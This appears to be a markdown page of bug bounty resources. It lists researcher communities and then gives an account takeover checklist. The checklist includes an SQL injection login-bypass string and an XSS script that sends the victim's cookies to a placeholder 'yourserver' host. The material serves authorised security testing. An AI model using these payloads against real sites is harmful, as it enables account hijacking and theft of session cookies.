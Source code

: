 ## Bug Bounty Communities

Bug bounty communities are a great way to connect with other security researchers, share knowledge, and learn from each other. Some of the popular bug bounty communities include:

1. **Bugcrowd Forum**: The Bugcrowd Forum is a community of security researchers who share tips, tricks, and resources for bug bounty hunting.

2. **HackerOne Community**: The HackerOne Community is a forum where security researchers can ask questions, share knowledge, and collaborate on bug bounty programs.

3. **Reddit Bug Bounty**: The Reddit Bug Bounty community is a subreddit where security researchers can discuss bug bounty programs, tools, and resources.

4. **Twitter**: Twitter is a great platform to connect with other security researchers, share your findings, and stay up to date on the latest bug bounty programs.

## Bug Bounty Resources


## Account Takeover Checklist

* **login:**
  - check if you are able to brute force the password
  - Test for OAuth misconfigurations
  - check if you are able to bruteforce the login OTP
  - check for JWT mesconfigurations
  - Test for SQL injection to bypass authentication.<br> `admin" or 1=1;--`
  - check if the application validates the OTP or Token
* **password reset:**
  - check if you are able to brute force the password reset OTP.
  - test for token predectability.
  - test for JWT misconfigurations.
  - check if the password reset endpoint is vulnerable to IDOR.
  - check if the password reset endpoint is vulnerable to Host Header injection.
  - check if the password reset endpoint is leaking the token or OTP in the HTTP response.
  - check if the application validates the OTP or Token.
  - test for HTTP parameter Pollution (HPP).
* **XSS to Account Takeover:**
  - if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password
  - try to exfiltrate the cookies
  - try to exfiltrate the Auth Token
  - if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies PoC Example:

```js showLineNumbers
<script>
  /*
  this script will create a hidden <img> element
  when the browser tries to load the image the victim's cookies
  will be sent to your server
  */
  var new_img = document.createElement('img');
  new_img.src = "http://yourserver/" + document.cookie;
  new_img.style = 'display: none;'
  document.body.appendChild(new_img);
</script>
```
* **CSRF to Account Takeover:**
  - check if the email update endpoint is vulnerable to CSRF
  - check if the password update endpoint is vulnerable to CSRF
  - PoC Example:
